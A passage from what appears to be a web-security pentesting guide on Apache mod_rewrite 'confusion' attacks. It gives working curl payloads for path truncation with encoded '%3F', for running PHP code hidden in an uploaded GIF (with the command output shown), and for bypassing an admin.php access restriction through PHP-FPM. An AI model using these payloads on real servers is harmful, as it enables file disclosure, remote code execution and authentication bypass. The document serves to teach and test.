 ```bash
RewriteEngine On
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"

# Expected
curl http://server/user/orange
# the output of file `/var/user/orange/profile.yml`

# Attack
curl http://server/user/orange%2Fsecret.yml%3F
# the output of file `/var/user/orange/secret.yml`
```

- **Mislead RewriteFlag Assignment**

In the following rewrite rule, as long as the URL ends in .php it's going to be treated and executed as php. Therefore, it's possible send a URL that ends in .php after the `?` char while loading in the path a different type of file (like an image) with malicious php code inside of it:

```bash
RewriteEngine On
RewriteRule  ^(.+\.php)$  $1  [H=application/x-httpd-php]

# Attacker uploads a gif file with some php code
curl http://server/upload/1.gif
# GIF89a <?=`id`;>

# Make the server execute the php code
curl http://server/upload/1.gif%3fooo.php
# GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### **ACL Bypass**

It's possible to access files the user shouldn't be able to access even if the access should be denied with configurations like:

```xml
<Files "admin.php">
    AuthType Basic
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```

This is because by default PHP-FPM will receive URLs ending in `.php`, like `http://server/admin.php%3Fooo.php` and because PHP-FPM will remove anything after the character `?`, the previous URL will allow to load `/admin.php` even if the previous rule prohibited it.

### DocumentRoot Confusion

```bash
DocumentRoot /var/www/html
RewriteRule  ^/html/(.*)$   /$1.html
```
